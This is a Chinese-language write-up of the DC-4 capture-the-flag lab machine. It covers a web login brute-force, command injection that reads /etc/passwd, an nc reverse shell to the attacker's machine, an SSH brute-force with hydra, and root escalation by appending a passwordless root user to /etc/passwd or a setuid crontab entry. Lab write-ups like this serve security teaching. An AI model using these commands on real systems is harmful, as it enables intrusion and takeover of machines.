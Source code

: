 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/enrNQacUwv8VVTwXo50mBQ)

**01 项目安装**
===========

首先咱们需要将 DC-4 的靶机下载，并安装到咱们的靶机上

下载地址是：https://www.five86.com/dc-4.html

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7VqFHVUYl0v48sRnJM1AGh2d0mgkItJd7oULCcbpgGb3yVONb5tbcwQ/640?wx_fmt=png)

进入页面点击 here 进行下载

下载好之后，导入咱们的虚拟机

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7fG40ibncZibake0Ay9uVs30XYDIHGKLY23OWoMYqWk3Gm6m8ATcDHDvA/640?wx_fmt=png)

看到这个页面，表示我们靶机安装成功，接下来就是拿下它

**02 信息收集**
===========

首先我们进行信息收集，获取靶机的 ip 和相关端口

```
#获取ip地址
nmap 192.168.31.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7PiaQI3aSCwgJ9lXbR5beTERkvGsBFf6zkXMcTIw34WOspHrm3g2NQ4A/640?wx_fmt=png)

可以看到靶机开启了 80 端口，页面访问一下

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7pgMMQ99WZA5XTsvsntfj1lS2zoVTPleHKFX4978wmgeNweDiagoHZsw/640?wx_fmt=png)

可以访问成功, 可以看到直接就让输入账户和密码

**03 爆破账号密码**
=============

既然看到了登录密码框，而且提示，账户名为：admin，只需要就用 BurpSuite 将密码爆破出来

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7DwzfibPztWLFy2iaaS4UOs8d61WtYgynib3s77TiaicoDSRkEUj2xw1PTcw/640?wx_fmt=png)

最后爆出 账号名: admin , 密码: happy

**04 命令注入**
===========

进入网页之后可以看到，居然是可以执行 linux 命令

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7CBvMBvGqPSoSxWPfEH1licomA0YVUs5yApBZicx1G4tAeTricdib9QzJtw/640?wx_fmt=png)

既然如此，用 BurpSuite 拦截下

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7r2vXzmzbdicBIxVYQbNNzOibagG2lYHIhGq9FH6bS26hLTKz5qvSdQOg/640?wx_fmt=png)

可以看到页面确实在往后台传递命令，那么这里存在命令注入漏洞

将 ls+-l 修改为 cat+/etc/passwd ，获取下服务器密码

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7IGX3Zp6FBNAwy5sgv3BW4xPas8quzuUhRGpBLsKoLwDEVrT7hiaI8Kg/640?wx_fmt=png)

可以看到直接获取了服务器的用户名

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7n4p9JFQoskdfWib9zSXzMHEdwaibv5aSBN5sSlyJwicQHC8T0a9KEqSwQ/640?wx_fmt=png)

将有用的提取出来

```
#服务器用户名
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
```

既然可以执行命令，那直接反弹 shell

```
nc+192.168.31.81+1234+-e+/bin/bash
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7uP194kANvmy7V3kcichrSclFkY3ib1x8mKcjM5lnAOCQMouIToYw3MMA/640?wx_fmt=png)

在 kali 上监听 1234 端口

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7uf6SN9iamZoUFKibicVibia2XVwJKQUcGv6UqXWG1PHZh3gRR1icyIKyagmw/640?wx_fmt=png)

攻击机上已经获取到了 shell

```
#获取完全交互的shell

python -c 'import pty;pty.spawn("/bin/sh")'
```

链接上靶机之后，看下服务器上面都有什么，最后发现只有 jim 文件下有类似密码备份

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7gs6BbfjqgaEiblMlzCPHQib8LMSAgJwtFlLnOg9yHxcsMZgXtT8ud8Ig/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7fL9CG0tXawOSdiax8fWBR95lSrTBkL2Va4n9rWF4aeUze0xtVgtTpSQ/640?wx_fmt=png)

在 kali 中创建个文件，将密码保存起来

```
#将密码放入文件，保存
vim pass.txt
:wq
```

在创建个文件，用来存储服务器的用户名

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7bKjib6pX0j45lQxu5NIZsHVFRbWGAbgwiaXuyEtw66IzRtlnibicQbNMxA/640?wx_fmt=png)

**05 ssh 爆破**
=============

既然有了用户名列表，也有了密码列表，那么就开始对服务器进行爆破

```
#在kali中使用hydra进行爆破
hydra -L user.txt -P pass.txt  ssh://192.168.31.145 -s  22
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7TNO63jcY4PePib8j2qfIOTVd4afuud2gyVrQvd8KsibSO442XKOQ2eXg/640?wx_fmt=png)

可以看到账号是: jim , 密码是: jibril04

使用 ssh 远程登录 jim 的账号

```
ssh jim@192.168.31.145
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp71a1t5YvfrozUKGyd1H8VgziccjlRcLtIbPgStf7ya3tF1sk3BW1qwqA/640?wx_fmt=png)

登录成功

**06 获取信息**
===========

在服务器中，可以看到 Charles 发送给 Jim 的一份邮件

在 var/mail 文件夹下

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7fyI6RDkJZbugV2aXI1za8ZdUibdhbXx7agTRkUJEECNZBwRSYuW2E6A/640?wx_fmt=png)

可以看到 Charles 的密码是 ^xHhA&hvim0y

ssh 链接一下

```
ssh charles@192.168.31.145
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7Ude73reK7ul9qHdHmwwaSEk7Ck456W3ITziaYK4tlJlEb3C29bElCAQ/640?wx_fmt=png)

登录成功

**07 提权**
=========

执行

```
sudo -l
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7ur2VBDUTu9MQevUJ9v2gvpfQwLcMzv9Du0OEof2jPFmCNrW4FTczibA/640?wx_fmt=png)

可以看到一个 root 权限无密码执行的脚本

可以通过这个脚本进行提权

这个脚本具体是做什么用的？它主要是把内容写入一个文件的中的末尾

既然知道脚本的功能，那么这个地方就有两种办法提取

第一种，创建一个具有 root 权限的用户

```
#创建新的root权限账户
echo "admin::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```

第二种，定时任务

```
echo "* * * * * root chmod 4777 /bin/sh" | sudo teehee -a /etc/crontab

/bin/sh
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7Rsm4EQibz7hAnoedx1aVqWg8QR9MrttAz4QtyGWqbDSjk2vKaMw9xPQ/640?wx_fmt=png)

提权成功

最后查看 root 目录下的目标

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7HibUz9wVc3icusN8qIxbmibzRm5qickia9ibcnxaG8qWqu20XwwqrciagicqDQ/640?wx_fmt=png)

**08 总结**
=========

1. 使用 BurpSuite 对网页登录框，进行密码账号爆破

2. 通过命令注入漏洞，进行命令注入

3. 使用 hydra 对 ssh 进行爆破

4. 通过现有的脚本进行提权操作

-END-

![](https://mmbiz.qpic.cn/mmbiz_gif/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7hWBdZDHukT8RoSoK1MU9vDWyA2mFUrwpHW1hR66bIH2dD1fKj1L0PA/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_jpg/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7dMwH9adLvutCcLicdEPPFyr9jnN06NLRu6Jg85SEicmhbc53z5wXZzWQ/640?wx_fmt=jpeg)

微信号：Zero-safety

- 扫码关注我们 -

带你领略不一样的世界

![](https://mmbiz.qpic.cn/mmbiz_gif/eqGGHicCG3MaY6g8c4royZZdoEQzaibpp7LVpnnataVgcuqkaiaxbuf1mcdBkYc7ElZZpK9QLslbZZxMMRehafjQA/640?wx_fmt=gif)